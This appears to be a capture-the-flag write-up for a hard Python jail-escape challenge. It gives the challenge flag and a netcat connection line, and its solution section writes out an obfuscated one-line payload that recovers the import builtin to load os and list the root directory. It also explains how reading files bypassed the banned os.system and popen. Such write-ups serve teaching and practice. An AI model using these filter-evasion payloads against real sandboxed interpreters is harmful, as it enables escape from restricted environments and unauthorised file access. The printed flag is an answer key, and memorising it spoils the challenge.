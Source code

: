 # Capital Jail hard

--------------------

### Description

**Difficulty:** hard

This jail seems to be far more advanced! Can you escape now?

```
nc some.server 1339
```

**Flag:** shadowctf{5c446e9e48716d0b2a93e6de38a0de13}

--------------------

### Solution

To list a directory and get a name of flag file, we use the following `ls` payload: 
``` python
(getattr(*([[x[len([[]])]for (x)in(globals().items())if 'builtin'in (x[len([])])][len([])]]+[[(y)for (y)in(dir([x[len([[]])]for (x)in(globals().items())if 'builtin'in (x[len([])])][len([])]))if 'import'in (y)][len([])]]))("os").listdir("/"))
```

Then see `payload`. Basically, it's just importing `os`, opening file with `os.open` and reading with `os.read`. 
`os.system` was banned in this task, as well as `os.popen` and some other classical vectors.

--------------------

### Running

`docker-compose up`
